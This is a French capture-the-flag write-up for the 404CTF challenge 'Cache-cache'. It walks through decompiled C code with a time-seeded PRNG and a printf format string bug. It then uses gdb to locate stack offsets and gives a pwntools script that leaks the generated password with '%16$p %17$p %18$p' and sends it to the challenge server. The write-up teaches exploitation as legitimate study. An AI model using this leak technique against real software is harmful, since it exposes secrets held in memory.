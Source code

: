 # Cache-cache

> Agent, il semble que suite à de nombreux scans réseaux, vos collègues ont découvert des endpoints suspects appartenant, semble-t-il, à Hallebarde. Nous pensons qu'ils servent de passerelle entre Hallebarde et des scientifiques qui se sont récemment mis à vendre les informations de leurs recherches. Votre mission est de passer la sécurité de cet endpoint et d'essayer d'en savoir plus sur la situation.
>
> nc challenge.404ctf.fr 31946

## Description

Je reverse le binaire avec Ghidra et j'obtiens la partie de `main` qui est intéressante (j'ai rajouté quelques commentaires pour faciliter la compréhension):

```c
  // Choix de time() comme seed pour le PRNG
  uVar1 = time(0);
  srandom(uVar1);

  // Génération du secret, qui est mis dans auStack248
  for (; iStack304 != 0; iStack304 = iStack304 + -1) {
    uStack300 = rand_lim((int)uStack296 + -1);
    uStack306 = picker(apuStack280[uStack300]);
    strncat(auStack248,&uStack306,1);
  }

  // Demande le nom d'utilisateur, et l'affiche
  puts(&UNK_00495060);
  fgets(auStack136,0x78,stdin);
  printf(&UNK_00495084);
  printf(auStack136);

  // Demande le mot de passe (et enlève le \n)
  puts(&UNK_0049508d);
  fgets(auStack216,0x15,stdin);
  lVar3 = strcspn(auStack216,&UNK_004950ab);
  auStack216[lVar3] = 0;

  // Vérifie si le mot de passe est égal au secret
  puts(&UNK_004950b0);
  iVar2 = strcmp(auStack248,auStack216);
  uStack305 = iVar2 == 0;
  if ((bool)uStack305) {
    // Si oui, affiche le flag
    puts(&UNK_004950e0);
    puts(&UNK_00495140);
    uStack288 = fopen64(&UNK_004951d1,&UNK_004951ce);
    fgets(auStack184,0x28,uStack288);
    puts(auStack184);
    fclose(uStack288);
  }
  else {
    puts(&UNK_004951e0);
  }
```

On voit donc qu'un mot de passe est généré de manière pseudo-aléatoire, puis on nous demande notre nom, et celui-ci est affiché, puis on doit entrer le mot de passe qui a été généré aléatoirement.

Je vois deux vulnérabilités ici:
1) c'est un générateur pseudo-aléatoire qui est utilisé, et le temps est utilisé comme graine. On peut donc probablement tenter de se synchroniser avec le serveur pour générer le même mot de passe;
2) On contrôle le nom d'utilisateur, et celui-ci est affiché en utilisant `printf(auStack136)` plutôt que `print("%s", auStack136)`. Il s'agit d'une format string vulnerability.

Je pars plutôt sur la solution 2 qui permet de ne pas avoir à se synchroniser avec le serveur (qui demanderait un petit brute force).

### Format string vulnerability

Le principe de la format string vulnerability est qu'en utilisant `printf`, le premier argument est la format string.

Ainsi, la chaîne de caractères que je contrôle peut être considérée comme une chaîne de format, et si je rentre `%d`, `printf` va regarder le second argument et l'afficher comme un entier.

Or, il n'y a pas de second argument ici: `printf` va donc afficher le premier élément sur la stack, et j'ai ainsi pu avoir accès à un élément potentiellement secret.

## Solution

Je cherche donc à afficher le secret qui a été généré précédemment (et qui est sur la stack).

Pour ce faire, je lance `gdb` pour savoir à quel offset de ma stack il se trouve.

Je mets un breakpoint sur `printf` (pour m'arrêter juste avant la vulnérabilité), et je rentre comme nom d'utilisateur `%p %p %p %p %p %p %p` pour afficher le début de la stack.

Puis avant le `printf`, j'affiche la stack avec `x/40wx $rsp`, et je laisse le programme tourner pour afficher le début de la stack.

![](../images/cachecache_stack.png)

Et là je vois que le 6e élément affiché est `0x7fffffffde18` (encadré en rouge), le 7e est `0x10041cb7e` (encadré en orange).

Par ailleurs, comme le mot de passe est stocké en `local_f0`, cela signifie qu'il est à l'adresse `$rbp-0xf0`, ce que j'affiche avec `p/x $rbp-0xf0`. Il s'agit de ce qui est encadré en vert sur la capture précédente.

Je peux donc compter: le mot de passe est sur les 16e, 17e et 18e éléments de la stack, ce que je peux afficher avec `%16$p %17$p %18$p`.

Reste ensuite à reconstituer la chaîne de caractères et à l'envoyer.

Le code suivant effectue ces opérations:

```python
from pwn import *

sh = remote("challenge.404ctf.fr", 31946)

sh.recvuntil(b":")
sh.sendline("%16$p %17$p %18$p")

sh.recvuntil(b"Bonjour ")
leaked = [int(x, 16) for x in sh.recvline().decode().split(" ")]
password = b"".join(x.to_bytes(8, "little") for x in leaked)
sh.recvuntil(b"passe?")
sh.sendline(password)
sh.interactive()
```

Flag: `404CTF{13_10UP_D3V0r3_14_H411384rD3}`